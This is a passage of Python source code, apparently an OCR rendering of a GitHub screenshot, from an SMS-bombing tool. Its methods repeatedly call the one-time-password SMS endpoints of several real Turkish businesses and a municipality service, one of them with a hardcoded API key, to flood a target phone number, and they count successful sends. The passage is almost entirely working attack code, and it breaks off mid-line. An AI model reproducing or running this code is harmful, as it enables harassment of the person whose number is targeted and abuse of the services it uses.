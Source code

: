                 print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> crmmobil.baydoner.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> crmmobil.baydoner.com")


    #pidem.com.tr
    def Pidem(self):
        try:
            url = "https://restashop.azurewebsites.net:443/graphql/"
            headers = {"Accept": "*/*", "Origin": "https://pidem.azurewebsites.net", "Content-Type": "application/json", "Authorization": "Bearer null", "Referer": "https://pidem.azurewebsites.net/", "Accept-Language": "tr-TR,tr;q=0.9", "User-Agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 15_8 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko)", "Accept-Encoding": "gzip, deflate, br"}
            json={"query": "\n  mutation ($phone: String) {\n    sendOtpSms(phone: $phone) {\n      resultStatus\n      message\n    }\n  }\n", "variables": {"phone": self.phone}}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["data"]["sendOtpSms"]["resultStatus"] == "SUCCESS":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> restashop.azurewebsites.net")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> restashop.azurewebsites.net")


    #frink.com.tr
    def Frink(self):
        try:
            url = "https://api.frink.com.tr:443/api/auth/postSendOTP"
            headers = {"Accept": "*/*", "Content-Type": "application/json", "Authorization": "", "Accept-Encoding": "gzip, deflate, br", "User-Agent": "Frink/1.4.6 (com.frink.userapp; build:1; iOS 15.8.0) Alamofire/4.9.1", "Accept-Language": "tr-TR;q=1.0, en-TR;q=0.9", "Connection": "close"}
            json={"areaCode": "90", "etkContract": True, "language": "TR", "phoneNumber": "90"+self.phone}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["processStatus"] == "SUCCESS":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.frink.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.frink.com.tr")


    #bodrum.bel.tr
    def Bodrum(self):
        try:
            url = "https://gandalf.orwi.app:443/api/user/requestOtp"
            headers = {"Apikey": "Ym9kdW0tYmVsLTMyNDgyxLFmajMyNDk4dDNnNGg5xLE4NDNoZ3bEsXV1OiE", }
            json={"gsm": "+90"+self.phone, "source": "orwi"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> gandalf.orwi.app")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style
